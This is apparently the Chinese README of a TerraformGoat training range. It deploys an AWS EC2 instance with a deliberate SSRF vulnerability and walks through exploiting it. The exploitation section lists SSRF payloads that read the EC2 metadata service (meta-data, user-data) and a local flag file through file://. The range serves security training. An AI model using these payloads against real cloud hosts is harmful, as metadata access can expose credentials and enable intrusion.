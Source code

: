 # AWS EC2 SSRF 漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS EC2 SSRF 漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 SSRF 漏洞获取到 EC2 上的元数据、用户数据等信息。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/ec2/ec2_ssrf/
```

配置 AWS 访问凭证

```shell
aws configure
```

![img](../../../images/1651044031.png)

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![img](../../../images/1650428695.png)

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可

![img](../../../images/1650429022.png)

## 漏洞利用

在存在 SSRF 漏洞的 EC2 上，我们可以利用 SSRF 读取 EC2 的元数据、用户数据等信息。

读取元数据

```shell
http://169.254.169.254/latest/meta-data/
```

![img](../../../images/1650429215.png)

读取用户数据

> 前提是目标已经配置了用户数据，不然会返回 404

```shell
http://169.254.169.254/latest/user-data
```

![img](../../../images/1650429432.png)

在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用 SSRF 读取这个文件

```shell
file:///flag69152201.txt
```

![img](../../../images/1650429930.png)

成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
